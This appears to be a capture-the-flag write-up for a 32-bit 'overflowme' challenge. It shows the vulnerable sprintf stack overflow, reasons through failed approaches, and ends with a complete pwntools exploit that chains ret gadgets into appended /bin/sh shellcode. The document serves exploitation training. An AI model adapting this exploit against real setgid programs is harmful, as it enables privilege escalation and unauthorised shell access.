

# Overflowme Writeup

## 0x00 Introduction

Actually this problem is not hard, but I didn't get the point at the beginning, so it spent me about a few hours... Therefore, I wrote this writeup to record and conclude for myself.

## 0x01 Problem

obvious stack overflow，as shown

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "inspection.h"
void vuln(char *str) {
    char buf[770];
    sprintf(buf, "Hello %s", str);
    puts(buf);
    fflush(stdout);
    return;
}

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

int main(int argc, char **argv) {

    if (argc != 2) {
        printf("Usage: %s [name]\n", argv[0]);
        return 1;
    }
    be_nice_to_people();
    vuln(argv[1]);
    return 0;
}
```

The input is the argv[1], so to debug using gdb, we need to do this in pwntool python script

```python
sh = gdb.debug(["./overflowme", payload], "b vuln")
```

instead of

```python
sh = process(["./overflowme", payload])
```

when executing the process

## 0x02 Approach

### find jmp esp/jmp ebx/jmp ebp/call esp/call ebx/call ebp

When vuln terminates, where control flow can be hijacked:


ebx/esp/ebp points to stack, which means that we can fill this address using our payload. However, there is no such instruction in this program since the program is so small.

Then, I was thinking about ROP to move value of ebx to eax/edx and return to call eax/edx, which this program has.

However, again, the program is so small that we cannot find such ROP chain.

Then I found that data segment of this program is both writable and executable, and we know address of data segment, so I would like to find something like DWORD SHOOT to construct such instruction in data segment and return to the instruction that I created.

This program is small, the only possible DWORD SHOOT is using register ebp as base address register, so we need to change ebp to pointer in data segment. However, after those instruction, "leave" instruction is executed, so esp=ebp, but ebp points to data segment, so return address is not controlled by me anymore. Same for the method to shoot esp into data segment and use push to change data in data segment. \(This one is even more impossible, since change esp to somewhere uncontrollable cannot help us in constructing ROP\)

What about using sprintf? This can write data into data segment if we let dst pointer point to data segment. However, our we don't know address of stack, but our payload is in stack, so we cannot do this.

What about using %x in data segment to shoot something into code segment? In this way what we need is value that can be controlled instead of address pointing to out payload. However, the possible bytes are limited, alpha shellcode is possible, but quite complicated to construct. \(will try this if I have time later\)

At this point, I realized that I was thinking in the wrong direction, since I do not think this question is hard like that.

### find ROP that output GOT and input system address

I have used this technique in solving caas, in which I constructed ROP in heap and the address of heap is known. Thus, I can manipulate ebp in the way that leave/ret will help us to execute next call. However, in this case, stack address is unknown, so we cannot do this. 

However, in this case, we have "add,esp xxx; pop xxx; pop xxx; ret" \(There is no leave\). Thus we can execute sequence of call without need to know stack address.

However, there is not such function imported as read/scanf, so we cannot do this.

### utilize data in stack

Utilizing data in register cannot succeed, so why not utilize data in stack? It is possible.



This is stack when ret in vuln is executed. Nice! The 2nd dword in stack points to our payload since argument of vuln is pointer to our input, so as long as we make return address to be a ret, double ret will make eip jump to our shellcode!

What's the problem here? The overflow function is sprintf, in which there is '\0' added in the end, so least significant byte of pointer to our input will be changed to 0, so this address is no longer our input anymore but something previous, which causes segmentation fault before shellcode is reached.

How to solve this? If we can find a ret with address 0x080400xx or 0x08048600 \(partly overflow\), we can ret to that ret, so pointer to out input will not be corrupted. Unluckily, there is no such ret. 

However, we can do several sequence of ret until next dword, if least significant byte being cleared to 0, will point to our shellcode.

Actually,  if we clear LSB of 0xffffcb78 to get 0xffffcb00, we can find that


Wow! This can be our shellcode if we put shellcode in the end of payload!

Thus, final exp is

```python
from pwn import *
g_local = False
shellcode = asm("sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;sub esp,0x7f;" + shellcraft.i386.linux.sh())
# sub esp is to prevent the data being pushed into stack in shellcode corrupt shellcode itself, important in NX disabled exploitation
overflow_len = 0x308
if g_local:
	padding = 0#x18
else:
	padding = 0#x28

payload = ("A" * (overflow_len - len(shellcode) - padding)) + shellcode + "A"*padding + p32(0x8048615) * 3
# 0x8048615 is address of ret

if g_local:
	#sh = gdb.debug(["./overflowme", payload], "b vuln")
	sh = process(["./overflowme", payload])
else:
	sh = process(["/problems/b0b419078e5ac70c47a50b04b2aae2d9/overflowme", payload])

print hex(len(payload))
print payload

sh.interactive()
```

